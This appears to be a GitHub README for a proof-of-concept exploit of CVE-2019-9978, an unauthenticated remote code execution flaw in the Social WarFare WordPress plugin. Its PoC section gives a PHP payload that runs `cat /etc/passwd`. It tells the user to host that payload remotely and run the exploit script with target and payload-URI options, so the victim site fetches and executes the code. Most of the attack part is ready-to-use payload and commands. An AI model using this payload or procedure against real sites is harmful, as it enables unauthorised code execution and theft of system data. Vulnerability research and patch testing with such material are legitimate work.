 # CVE-2019-9978
CVE-2019-9978 - (PoC) RCE in Social WarFare Plugin (&lt;=3.5.2)

## Description
Unauthenticated remote code execution has been discovered in functionality that handles settings import. A user can leverage the use of RFI to RCE. 

## PoC
Copy the following payload: 
```
<pre>system('cat /etc/passwd')</pre>
```
Save it with filename: `payload.txt` and upload it on a server. The URI should look like: `http(s)://yoursite.com/payload.txt`. Finally, supply your `--target` and `--payload-uri` options: 

```
$ python cve-2019-9978.py --target http://vulntarget.com \
                         --payload-uri http://yourpayloadsite.com/payload.txt

```
![Screenshot at 2019-05-03 11-15-02](https://user-images.githubusercontent.com/29171692/57122079-c50c0f00-6d94-11e9-8469-671685d0dbe7.png)

## Credits
Researcher: Luka Sikic<br>
Link: https://wpvulndb.com/vulnerabilities/9259?fbclid=IwAR2xLSnanccqwZNqc2c7cIv447Lt80mHivtyNV5ZXGS0ZaScxIYcm1XxWXM<br>
Author: [@hash3liZer](https://twitter.com/hash3liZer)<br>
